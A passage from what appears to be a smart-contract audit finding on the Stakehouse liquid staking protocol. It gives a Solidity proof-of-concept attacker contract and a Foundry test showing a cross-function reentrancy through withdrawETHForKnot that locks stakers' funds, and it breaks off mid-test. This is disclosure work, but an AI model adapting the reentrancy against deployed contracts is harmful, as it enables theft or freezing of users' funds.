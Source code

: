         constructor(LiquidStakingManager _manager, bytes memory _blsPublicKey1, bytes memory _blsPublicKey2, address _testUtils) payable public {
            manager = _manager;
            blsPublicKey1 = _blsPublicKey1;
            testUtils = TestUtils(_testUtils);
            //register BLS Key #1
            manager.registerBLSPublicKeys{ value: 4 ether }(
                testUtils.getBytesArrayFromBytes(blsPublicKey1),
                testUtils.getBytesArrayFromBytes(blsPublicKey1),
                address(0xdeadbeef)
            );
            // Register BLS Key #2
            manager.registerBLSPublicKeys{ value: 4 ether }(
                testUtils.getBytesArrayFromBytes(_blsPublicKey2),
                testUtils.getBytesArrayFromBytes(_blsPublicKey2),
                address(0xdeadbeef)
            );
        }
        receive() external payable {
            testUtils.stakeSingleBlsPubKey(blsPublicKey1);
        }
    }

Add the following imports to `LiquidStakingManager.t.sol`  
[https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12](https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12)

    import { NodeRunner } from "../../contracts/testing/liquid-staking/NodeRunner.sol";
    import { IDataStructures } from "@blockswaplab/stakehouse-contract-interfaces/contracts/interfaces/IDataStructures.sol";

Add the following test to `LiquidStakingManager.t.sol`  
[https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L121](https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L121)

        function testLockStakersFunds() public {
            uint256 startAmount = 8 ether;
            // Create NodeRunner. Constructor registers two BLS Keys
            address nodeRunner = address(new NodeRunner{value: startAmount}(manager, blsPubKeyOne, blsPubKeyTwo, address(this)));
            
            // Simulate state transitions in lifecycle status to initials registered (value of 1)
            MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 1);
    
            // savETHUser, feesAndMevUser funds used to deposit into validator BLS key #1
            address feesAndMevUser = accountTwo; vm.deal(feesAndMevUser, 4 ether);
            address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);
            
            // deposit savETHUser, feesAndMevUser funds for validator #1
            depositIntoDefaultSavETHVault(savETHUser, blsPubKeyOne, 24 ether);
            depositIntoDefaultStakingFundsVault(feesAndMevUser, blsPubKeyOne, 4 ether);
    
            // withdraw ETH for first BLS key and reenter
            // This will perform a cross-function reentracy to call stake
            vm.startPrank(nodeRunner);
            manager.withdrawETHForKnot(nodeRunner, blsPubKeyOne);
            // Simulate state transitions in lifecycle status to ETH deposited (value of 2)
            // In real deployment, when stake is called TransactionRouter.registerValidator is called to change the state to DEPOSIT_COMPLETE 
            MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 2);
            vm.stopPrank();
            